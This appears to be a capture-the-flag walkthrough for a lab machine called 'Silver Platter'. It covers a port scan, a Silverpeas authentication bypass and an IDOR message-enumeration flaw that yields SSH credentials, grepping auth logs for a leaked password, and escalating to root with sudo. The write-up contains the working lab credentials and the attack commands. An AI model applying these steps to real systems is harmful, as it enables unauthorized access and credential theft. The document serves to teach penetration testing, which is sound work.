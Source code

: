 # Silver Platter



## Ports Scan

```bash
nmap -T4 -A -p 22,80,8080 --min-rate 1000 10.10.49.42 -oN port_scan.txt -Pn

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3b:f4:48:e3:17:b8:3a:33:32:cb:b6:79:82:96:07:aa (ECDSA)
|_  256 3b:1f:a3:fe:0b:2c:79:9a:58:98:66:e6:cf:81:aa:72 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:20 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:19 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
```



## Web Enumeration

In the web site contact page we found this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Probably other HTTP port 8080 is a Silverpeas server.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Searching on internet we can get that the default port might be the `8080` and the default route is `/silverpeas`.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2024-36042 - Silverpeas Auth Bypass

Looking the years in the bottom of the page i can image that the software is not updated.

And... searching on web we have found a Authentication Bypass vulnerability

{% embed url="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d" %}

I tried to replicate this PoC and tata...

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2023-47323 - SilverPeas Broken Access Control

The version of the service is the 6.3.1

We can search on the web the version to find vulnerabilities

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CVE-2023-47322 looks interesting, it should allow us to read all message of all users.

{% embed url="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323" %}

```
http://10.10.206.103:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=1
```

Change the ID with BurpSuite we can enumerate the messages. Taking a look to the message with ID 6, this message contains SSH credentials

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SSH credential
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```



## Initial Access

SSh connection

```bash
ssh tim@10.10.206.103
> cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

First things first, let's go to print the user flag

```bash
cat /home/tim/user.txt
```



## Privilege Escalation

### "adm" group PrivEsc

```bash
id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

> Traditionally the `adm` group is used to give a user access to some sort of system log files.\
> See e.g. `ls -l /var/log`.

With the log files acces, we can grep possible cleat-text password

{% code overflow="wrap" %}
```bash
cat /var/log/auth* | grep -i --text "pass"

Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1

```
{% endcode %}

With this password we can try to do password spray with know users.

```bash
su tyler
> _Zd_zx7N823/
```

That's it, we have access as tyler.

```bash
sudo -l

User tyler may run the following commands on ip-10-10-142-94:
    (ALL : ALL) ALL
```

User tyler has all privilege, and with this user we can became root.

```bash
sudo su
```

Now that we are root, we can print the root flag.

```bash
cat /root/root.txt
```



